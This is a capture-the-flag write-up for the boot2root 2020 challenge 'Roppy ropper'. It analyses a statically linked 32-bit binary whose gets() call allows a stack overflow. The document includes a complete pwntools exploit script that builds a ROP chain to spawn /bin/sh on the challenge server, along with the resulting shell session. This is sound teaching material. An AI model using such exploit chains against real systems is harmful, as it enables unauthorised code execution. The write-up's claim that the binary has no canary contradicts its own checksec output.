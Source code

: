 # boot2root 2020

## Roppy ropper

> 467
>
> I love ropes do you?
>
> `nc 35.238.225.156 1004`
>
> Author: TheBadGuy
> 
> [lsass](lsass)

Tags: _pwn_ _x86_ _remote-shell_ _bof_ _rop_


## Summary

Static ROP binary, all parts included, no assembly required.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

No PIE or Canary (where is matters, see below); easy easy ROP.


### Decompile with Ghidra

```c
void list_me_like_crazy(void)
{
  char *pcVar1;
  char local_11 [9];
  
  puts("(list_me_like_crazy)");
  puts("Is this lsass I dont understand :)");
  puts("Give me your arguments:");
  gets(local_11);
  pcVar1 = strchr(local_11,0x2f);
  if (pcVar1 == (char *)0x0) {
    run_command(local_11);
  }
  else {
    puts("Hey sorry that is not allowed");
  }
  return;
}
```

When loading up in Ghidra the first thing you'll notice is how long it takes Ghidra to analyze the binary because it is statically linked:

```
lsass: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked,
BuildID[sha1]=29ace8e7875f5edabe4ce83e83ec1aebd4cfa48c, for GNU/Linux 3.2.0, not stripped
```

Like [Welcome to Pwn](https://github.com/datajerk/ctf-write-ups/tree/master/boot2root2020/welcome_to_pwn), `gets` is the vulnerability, but since we have a binary full of gadgets using something like `ropper` (hint in the title) is all we need:

```
ropper --file lsass --chain "execve cmd=/bin/sh" --badbytes 0a
```

The output of that prefixed with `0x11` bytes of garbage is all we need to get a shell (`local_11` is `0x11` bytes from the return address on the stack).


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./lsass')

if args.REMOTE:
        p = remote('35.238.225.156', 1004)
else:
        p = process(binary.path)

# ropper --file lsass --chain "execve cmd=/bin/sh" --badbytes 0a
IMAGE_BASE_0 = 0x08048000 # da2732480d49a078e666802ee2edcd948700eacaaa48129430ea1ff6d5e8e5c6
rebase_0 = lambda x : p32(x + IMAGE_BASE_0)

rop  = b''
rop += rebase_0(0x0000319b) # 0x0804b19b: pop edi; ret;
rop += b'//bi'
rop += rebase_0(0x0000101e) # 0x0804901e: pop ebx; ret;
rop += rebase_0(0x0009a060)
rop += rebase_0(0x0004627d) # 0x0808e27d: mov dword ptr [ebx], edi; pop ebx; pop esi; pop edi; ret;
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += rebase_0(0x0000319b) # 0x0804b19b: pop edi; ret;
rop += b'n/sh'
rop += rebase_0(0x0000101e) # 0x0804901e: pop ebx; ret;
rop += rebase_0(0x0009a064)
rop += rebase_0(0x0004627d) # 0x0808e27d: mov dword ptr [ebx], edi; pop ebx; pop esi; pop edi; ret;
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += rebase_0(0x0000319b) # 0x0804b19b: pop edi; ret;
rop += p32(0x00000000)
rop += rebase_0(0x0000101e) # 0x0804901e: pop ebx; ret;
rop += rebase_0(0x0009a068)
rop += rebase_0(0x0004627d) # 0x0808e27d: mov dword ptr [ebx], edi; pop ebx; pop esi; pop edi; ret;
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += rebase_0(0x0000101e) # 0x0804901e: pop ebx; ret;
rop += rebase_0(0x0009a060)
rop += rebase_0(0x0001c081) # 0x08064081: pop ecx; add al, 0xf6; ret;
rop += rebase_0(0x0009a068)
rop += rebase_0(0x0004fa95) # 0x08097a95: pop edx; xor eax, eax; pop edi; ret;
rop += rebase_0(0x0009a068)
rop += p32(0xdeadbeef)
rop += rebase_0(0x00001825) # 0x08049825: pop ebp; ret;
rop += p32(0x0000000b)
rop += rebase_0(0x0001aa7e) # 0x08062a7e: xchg eax, ebp; ret;
rop += rebase_0(0x000319a0) # 0x080799a0: int 0x80; ret;

payload  = 0x11 * b'A'
payload += rop

p.sendlineafter('arguments:\n',payload)
p.interactive()
```

As stated in the Analysis section, `0x11` bytes, then ROPchain from `ropper`.

> The above is not 100% `ropper` output, I changed `p` to `p32`, added `b` to strings because I use `python3`, etc... nothing difficult to understand.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/boot2root2020/roppy_ropper/lsass'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to 35.238.225.156 on port 1004: Done
[*] Switching to interactive mode
Hey sorry that is not allowed
$ id
uid=1000(pwnuser) gid=1001(pwnuser) groups=1001(pwnuser),1000(ctf)
$ ls -l
total 688
-r--r--r-- 1 pwnflag pwnflag     35 Dec  6 09:29 flag.txt
-rwsr-xr-x 1 pwnflag pwnflag 698068 Dec  6 09:29 lsass
$ cat flag.txt
b00t2root{R0p_cHa1nS_ar3_tH3_b3st}
```
